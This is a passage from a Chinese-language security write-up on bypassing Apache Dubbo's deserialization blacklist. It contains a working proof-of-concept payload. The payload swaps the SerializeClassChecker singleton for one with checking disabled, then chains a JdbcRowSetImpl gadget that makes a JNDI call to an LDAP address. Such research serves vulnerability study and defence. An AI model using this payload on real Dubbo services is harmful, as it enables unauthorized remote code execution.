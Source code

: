  validateClass方法内容如下：

```java
public boolean validateClass(String name, boolean failOnError) {
    if (!this.OPEN_CHECK_CLASS) {
        return true;
    } else {
      ...

```

 这个方法首先会对SerializeClassChecker的OPEN\_CHECK\_CLASS属性进行判断，如果这个属性为false，那么就不会对传入类进行检查，直接返回。再看getInstance方法：

```java
public static SerializeClassChecker getInstance() {
    if (INSTANCE == null) {
        Class var0 = SerializeClassChecker.class;
        synchronized(SerializeClassChecker.class) {
            if (INSTANCE == null) {
                INSTANCE = new SerializeClassChecker();
            }
        }
    }

    return INSTANCE;
}
```

 这是一个典型的单例模式的写法。因此如果我们可以替换掉这个INSTANCE对象，将它的OPEN\_CHECK\_CLASS属性置为false，那么就可以绕过黑名单类的检查，之后就可以使用类似CVE-2021-30179的POC进行代码执行。核心代码如下：

```java
private static Map getInstance() throws IOException {
    HashMap newChecker = new HashMap();
    newChecker.put("class", "org.apache.dubbo.common.utils.SerializeClassChecker");
    newChecker.put("OPEN_CHECK_CLASS", false);
    HashMap map = new HashMap();
    map.put("class", "org.apache.dubbo.common.utils.SerializeClassChecker");
    map.put("INSTANCE", newChecker);
    LinkedHashMap map2 = new LinkedHashMap();
    map2.put("class", "com.sun.rowset.JdbcRowSetImpl");
    map2.put("DataSourceName", "ldap://127.0.0.1:1099/exp");
    map2.put("autoCommit", true);
    HashMap map3 = new HashMap();
    map3.put("class","java.util.HashMap");
    map3.put("1",map);
    map3.put("2",map2);
    return map3;
}
```

 第一个newChecker，用于创建一个OPEN\_CHECK\_CLASS属性值为false的SerializeClassChecker的对象，第二个map，用于将newChecker传入到SerializeClassChecker的单例INSTACNE属性中。然后第三个map2，使用类似CVE-2021-30179的POC，创建一个com.sun.rowset.JdbcRowSetImpl对象，然后dubbo会先后调用setDataSourceName和setAutoCommit，从而向我们指定的地址发起JNDI请求。需要注意这里map2需要设置为LinkedHashMap，否则在dubbo进行set调用时可能无法按照先setDataSourceName，再setAutoCommit的顺序执行。
